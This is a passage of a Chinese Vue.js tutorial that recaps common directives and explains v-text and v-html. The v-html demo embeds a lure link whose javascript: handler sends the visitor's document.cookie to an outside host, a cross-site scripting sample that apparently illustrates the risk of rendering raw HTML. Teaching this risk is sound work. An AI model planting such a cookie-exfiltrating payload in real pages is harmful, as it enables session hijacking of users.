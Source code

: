 ```html
```

**效果：**

![img](https://img-blog.csdnimg.cn/img_convert/739ed5a4c0c853f138776edb8273dcb1.png)

**总结：**

- 之前学过的指令：
  - `v-bind`：单向绑定解析表达式，可简写为`:`
  - `v-model`：双向数据绑定
  - `v-for`：遍历数组 / 对象 / 字符串
  - `v-on`：绑定事件监听，可简写为`@`
  - `v-if`：条件渲染（动态控制节点是否存存在）
  - `v-else`：条件渲染（动态控制节点是否存存在）
  - `v-show`：条件渲染 (动态控制节点是否展示)
- `v-text`指令：
  1. 作用：向其所在的节点中渲染文本内容
  2. 与插值语法的区别：`v-text`会替换掉节点中的内容，`{{xx}}`则不会。

#### 1.16.2. v-html指令

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>v-html指令</title>
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
	<body>
		<div id="root">
			<div>Hello，{{name}}</div>
			<div v-html="str"></div>
			<div v-html="str2"></div>
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

		new Vue({
			el:'#root',
			data:{
				name:'JOJO',
				str:'<h3>你好啊！</h3>',
				str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
			}
		})
	</script>
</html>

```
